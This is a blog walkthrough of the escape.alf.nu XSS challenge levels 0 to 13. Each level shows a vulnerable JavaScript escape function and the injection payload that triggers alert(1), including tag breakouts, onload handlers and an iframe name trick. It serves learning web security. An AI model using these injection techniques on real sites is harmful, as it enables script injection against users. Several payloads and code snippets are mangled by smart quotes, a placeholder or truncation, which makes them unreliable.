 ```yaml
---
layout: post
title:  "Escape.alf.nu walkthrough"
comments: true
image: ''
date:   2017-01-23 00:06:31
tags:
- JavaScript, escape.alf.nu
description: 'Web 300 - Java Serialization'
categories:
- escape.alf.nu, JavaScript
---
```

There are many solutions to Erling Ellingsen’s <a href="https://alf.nu/alert1">escape.alf.nu</a> XSS challenges and I will be giving the solutions to first few challenges in the set.
I suggest <b>not to</b> read the write-up before you attempting it. It can take several days to solve the challenges depending on the amount of knowledge you’ve on the same. It took me several days to complete up till the first three challenges and I’d be posting here on how to tackle them effectively and also the key points to note upon while solving the challenges.

`Level 0`:
{% highlight JavaScript %}
function escape(s) {
  // Warmup.

  return 'console.log("'+s+'");';
}
{% endhighlight %}

Point to be noted to here is first we have to close the `console.log` and then fulfil with the requirement we want.

<b>Solution</b>: `");alert(1);//`


`Level 1`:
{% highlight JavaScript %}
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return 'console.log("' + s + '");';
}
{% endhighlight %}

The key point in the next level is that the `s.replace(/""/g, '//"/');` replaces the `"` as `/"` for which we simply have to escape the backslash.

<b>Solution</b>: `\");alert(1);//`

`Level 2`
{% highlight JavaScript %}
function escape(s) {
  s = JSON.stringify(s);
  return 'console.log(' + s + ');';
}
{% endhighlight %}

Pointed to be noted here is with the function `JSON.stringify(s);` which will escape double quotes `“` into `/”` but then we can see that it doesn’t escape `<>` brackets. So what suddenly struck me was to make a script block and then execute `alert(1)` in it.

<b>Solution</b>: `</script>alert(1)`

`Level 3`
{%highlight JavaScript %}
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
{% endhighlight %}

Point to be noted here is that `console.log(url)` which make us enable to use URL encoding for double quotes because it’s being escaped here.

<b>Solution</b>: `%22);alert(1);//`

`Level 4`
{% highlight JavaScript %}
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

Point to be noted here is that `<` is being globally replaced by `&lt` and `“` is being replaced once by `&quot` . Then I noticed how it is being replaced and then I split the whole thing up inside the `text.replace()` and then arrived at the solution. Moreover the escape function uses a template like `[[src|alt]]`.

<b>Solution</b>: `[[a|””onload=alert(1);//]]`

It will be rendered as:

`<img src=”a.gif” onload=”alert(1)” alt”““>`

`Level 5`
{% highlight JavaScript %}
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

There were two points to be noted. One was that in the comment part which made me realize that it had similarity to that of the previous question and even before reading the rest, I tried the previous payload which didn’t work. Later I went through the rest of the code and figured out that it was in an http context.

<b>Solution</b>: `[[a|http://onload=alert(1);//]]`

`Level 6`
{% highlight JavaScript %}
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
{% endhighlight %}

First I noticed the comment section and figured out how `TextNode#foo` would show up and it just showed `foo`. Then I started reviewing all the functions in the DOM that begin with `create` as it is there in the function. Then I figured out the `createComment` from which I tried giving `Comment#foo` which showed `<!–<foo>–>` from which it made easy for the solution.

<b>Solution</b>:  `Comment#><svg/onload=alert(1)`

`Level 7`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Pointed to be noted here was that, first I gave input as there in the comment part and tried to analyse how it being rendered. Then I tried to play with it such that `alert(1)` gets executed.

<b>Solution</b>: `‘#’;alert(1)//`

`Level 8`

{% highlight JavaScript %}
function escape(s) {
  // Courtesy of Skandiabanken
  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

Here, the point to be noted was that, the string which you enter is converted into uppercase. Hence we need to figure a way out to print `alert(1)`. Why not try <i>JSfuck</i>?

<b>Solution</b>: `“);<alert(1)` in JSfuck>;//


`Level 9`
{% highlight JavaScript %}
function escape(s) {
  // This is sort of a spoiler for the last level 🙂

  if (/[\\<>]/.test(s)) return '-';

  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

This is the same thing as the previous case and would suggest the same solution that is by using JSFuck.

`Level 10`
{% highlight JavaScript %}
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": ''' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
                                             \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '{name}';       \n\
                                           \n\
    ",
    { name : s }
  );
}
{% endhighlight %}

Here once we try to execute, we can see that etc all are filtered except `‘ \ ‘`. So we convert to octal and then give.

<b>Solution</b>:  `\74svg onload=alert(1)\76`

`Level 11`
{% highlight JavaScript %}
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/

  return 'console.log(' + s + ');';
}
{% endhighlight %}

What happens here is that it just takes escapes `‘\’` and `‘ ” ‘` and not `<` brackets and so after that function returns the values, it again gets checked for `“<”` and replace it globally with `” “`.

<b>Solution</b>: `</</scriptscript>alert(1);//`

`Level 12`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Point to be noted is that backslashes are also being filtered and want to find a way out to comment it out and that is by `<!–`

<b>Solution</b>: `‘#’;alert(1)<!–`

`Level 13`
{% highlight JavaScript %}
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // http://print.alf.nu/?html=... just outputs whatever you pass in.
  //
  // Alerting from print.alf.nu won't count; try to trigger the one below.

  s = '<script>' + s + '<\/script>';
  tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.onload = function() {
    if (youWon) alert(1);
  };
  document.body.appendChild(tag);
}
{% endhighlight %}

iFrame has got a feature. It is setting the name attribute on an iFrame sets the name of the property in the global window object.

<b>Solution</b>: `name=’youWon’`

The rest of the solutions will be updated later. Do subscribe and raise questions if anything over here <a href="https://twitter.com/gkgkrishna33">Twitter</a>

